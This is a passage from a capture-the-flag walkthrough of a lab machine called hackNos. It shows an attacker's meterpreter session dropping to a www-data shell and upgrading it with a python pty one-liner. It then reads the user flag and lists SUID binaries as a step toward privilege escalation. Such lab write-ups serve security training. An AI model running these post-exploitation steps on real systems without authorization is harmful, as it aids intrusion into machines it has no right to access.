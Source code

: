 On meterpreter, we'll type `shell` to drop into the machine's shell:
```bash
meterpreter > shell
Process 2404 created.
Channel 0 created.
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

To be able to use `su` and various other features, we need to upgrade the shell using the python module `pty`:
```shell
python3 -c 'import pty; pty.spawn("/bin/bash")'
www-data@hackNos:/var/www/html/drupal$
```

We can already find the user flag within `/home/james`:
```bash
www-data@hackNos:/var/www/html/drupal$ ls /home
ls /home
james
www-data@hackNos:/var/www/html/drupal$ ls /home/james
ls /home/james
user.txt
www-data@hackNos:/var/www/html/drupal$ cat /home/james/user.txt
cat /home/james/user.txt
   _                                  
  | |                                 
 / __) ______  _   _  ___   ___  _ __
 \__ \|______|| | | |/ __| / _ \| '__|
 (   /        | |_| |\__ \|  __/| |   
  |_|          \__,_||___/ \___||_|   
                                      
                                      

MD5-HASH : bae11ce4f67af91fa58576c1da2aad4b

```

Let's check which binaries have root SUID, using `find / -perm /4000 2>/dev/null`:
```bash
www-data@hackNos:/var/www/html/drupal$ find / -perm /4000 2>/dev/null
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/openssh/ssh-keysign
/usr/lib/i386-linux-gnu/lxc/lxc-user-nic
/usr/lib/eject/dmcrypt-get-device
/usr/lib/snapd/snap-confine
/usr/lib/policykit-1/polkit-agent-helper-1
/usr/bin/pkexec
/usr/bin/at
/usr/bin/newgidmap
/usr/bin/gpasswd
/usr/bin/sudo
/usr/bin/newgrp
/usr/bin/newuidmap
/usr/bin/wget
/usr/bin/passwd
/usr/bin/chsh
/usr/bin/chfn
/bin/ping6
/bin/umount
/bin/ntfs-3g
/bin/mount
/bin/ping
/bin/su
/bin/fusermount
```